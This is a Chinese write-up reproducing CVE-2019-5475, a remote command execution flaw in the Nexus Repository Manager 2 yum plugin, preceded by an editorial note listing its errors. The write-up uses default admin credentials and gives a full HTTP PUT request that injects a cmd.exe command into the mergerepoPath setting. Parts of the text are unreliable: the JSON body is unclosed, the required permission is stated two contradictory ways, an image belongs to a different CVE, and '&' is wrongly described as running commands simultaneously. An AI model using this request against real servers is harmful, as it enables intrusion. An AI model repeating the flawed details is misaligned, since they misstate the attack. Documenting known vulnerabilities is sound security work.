


## 核对与使用边界

- 凭据处理：本文抓包中的可识别会话/防伪或认证值已仅将中段替换为星号，保留首尾及原长度便于对照；遮罩后的历史值不能作为可用登录凭据。原操作、请求方法和攻击表达式保留。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;=2.14.13 OSS/Pro，简介部署权限与后文admin矛盾

代码与实验材料：mergerepoPath注入和PUT，JSON缺结束}；保留/k会持续进程，改变capability有副作用

来源证据范围：无原研究或官方公告；一张图错误指10204目录

- **适用与权限边界（1）**：权限前提及JSON错误；依据：部署账号与管理员权限混淆，最终body只到notes空串未闭合。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **事实待核（2）**：跨漏洞图片引用污染；依据：第二图引用CVE-2020-10204资源路径却标5475，需视检核图不能因资源存在当准确。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **结论使用边界（3）**：命令解释及状态风险；依据：&amp;是顺序分隔不是同时执行；/k不退出可能挂住调用，需恢复原工具路径。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

（CVE-2019-5475）Nexus2 yum插件RCE漏洞
======================================

一、漏洞简介
------------

该漏洞默认存在部署权限账号，成功登录后可使用"createrepo"或"mergerepo"自定义配置，可触发远程命令执行漏洞

二、漏洞影响
------------

Nexus Repository Manager OSS \<= 2.14.13 Nexus Repository Manager Pro
\<= 2.14.13 限制：admin权限才可触发漏洞

三、复现过程
------------

首先以管理员身份（admin/admin123）登录 然后找到漏洞位置：Capabilities -
Yum:Configuration - Settings

Nexus2yum插件RCE漏洞/media/rId24.png)

点击 Save 抓包，更改mergerepoPath后的value值

    C:\\Windows\\System32\\cmd.exe /k dir&

Nexus2yum插件RCE漏洞/media/rId25.png)

此处使用 /k 是因为这样命令执行完会保留进程不退出，而 /c
后执行完会退出；由于给用户提供的命令后面加了一个
\--version，所以后面要加个&，&表两个命令同时执行，这样就不会干扰其他命令的执行

Poc如下：

    PUT /nexus/service/siesta/capabilities/00012bdb034073a3 HTTP/1.1
    Host: 127.0.0.1:8081
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
    Accept: application/json,application/vnd.siesta-error-v1+json,application/vnd.siesta-validation-errors-v1+json
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    X-Nexus-UI: true
    Content-Type: application/json
    X-Requested-With: XMLHttpRequest
    Content-Length: 241
    DNT: 1
    Connection: close
    Referer: http://127.0.0.1:8081/nexus/
    Cookie: NXSESSIONID=105******************************b13

    {"typeId":"yum","enabled":true,"properties":[{"key":"maxNumberParallelThreads","value":"10"},{"key":"createrepoPath","value":"111"},{"key":"mergerepoPath","value":"C:\\Windows\\System32\\cmd.exe /k dir&"}],"id":"00012bdb034073a3","notes":""
